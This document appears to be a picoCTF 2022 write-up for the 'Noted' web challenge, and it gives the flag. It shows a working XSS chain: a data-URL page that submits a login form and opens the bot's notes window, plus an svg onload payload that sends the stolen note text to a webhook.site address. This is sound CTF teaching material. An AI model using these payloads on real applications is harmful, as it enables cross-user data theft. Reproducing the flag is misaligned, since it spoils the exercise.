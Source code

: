   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows users to create an account, login, and then (upon login) create notes. The notes seem to be visible only to the logged in user and not accessible through some URL. Furthermore, in report.js, the following lines of code suggest that the flag is stored in a note of the puppeteer bot.

```js

		await page.goto('http://0.0.0.0:8080/new');
		await page.type('[name="title"]', 'flag');
		await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');
  ```
  

We can start by looking through similar past web exploit challenges and writeups that involved note taking apps. After searching online for these, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Given these results, XSS seems to be the way to go, but we need to first see if the website is vulnerable to it; to do so, we first create a account and we enter in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

This confirms that the website is vulnerable to XSS. 

So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal its notes which will contain the flag. However, we need to make the bot run this directly. At this point, I got multiple ideas on how to approach this. One of my initial plans was to directly fetch the notes of the bot, using the `fetch()` command, then taking that response, and sending its text to our webhook which then would be the flag. But after trying it out, we would see that this would not work. After a lot of googling, we would see that this would be common in a lot of XSS challenges, and is caused by the CORS policy disabled. At this point, I tried searching up CORS Bypass, and got [Hacktricks](https://book.hacktricks.xyz/pentesting-web/cors-bypass) and got [Medium](https://medium.com/the-crazy-coder/a-comprehensive-understanding-of-cors-all-frontend-developers-better-to-have-3ae46d35f19e). Here, I went in to wrong direction for a while thinking that this would be a promising idea, and after a lot of frusteration I decided that this is not the right path, and decided to change my logic. I then looked back at those writeups I had searched up in the beginning, and saw that we can either use a iframe or window to have the notes, then we can login. We also have it a bit easy, because we automatically go to the notes of the user, after we login. So here, I thought that would it be possible to somehow access that window we had opened before logging in? After some testing, and searching up how Windows work. It turned out YES! We can access that window that we opened and we keep it open as we login. Then the XSS can access the previously opened page's content because of same-origin. So now putting together our small broken up steps to get our plan, we first open a window of the bot's notes, then we can login as our temporary user. This will then access our temporary user's notes, where we can do XSS, to open our previously opened window of the bot's notes, which we can then send to our webhook as a GET request, where we can get the flag. Now that we have the plan, it's time to implement this and put it together. We can start off with the code we're going to inject in the Report function. To login as our user, we can use the <form> and <input> tags, with them put together as
```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
```

Then we want want to open up a window, with the bots notes and submit the form. To open up a window we can use `window.open()`, and to submit the form we can use ``setTimeout(`WebsiteForm.submit(), 1000`)``. Putting this together, we get 

```html
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

We also have to put this with data:text/html, so we actually get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1');setTimeout(`WebsiteForm.submit()`)</script>
```

Now we need to create the XSS we will use in our notes of the temporary user. So searching this up [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting), we can abuse some html tag. I chose to abuse the <svg tag, but you can use anything. Now, we want to open the window that has the bot's notes, and somehow send it to our webhook. After thinking about it, I realized that I can put it in the request itself, by putting the url of the webhook, and concatenating it with the note text. Putting this together we get,

```html
<svg onload="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

Now we have our full payload, which *might* work. Let's try it out!

Putting our payload in our temporary user's notes: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.02.11%20PM.png)</p>

Putting our payload in the Report function: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.04.06%20PM.png)</p>
  
Webhook Request: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.05.36%20PM.png)

Url Decoding: <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%204.07.43%20PM.png)
 
That's our flag! That's all for the writeup for Noted.
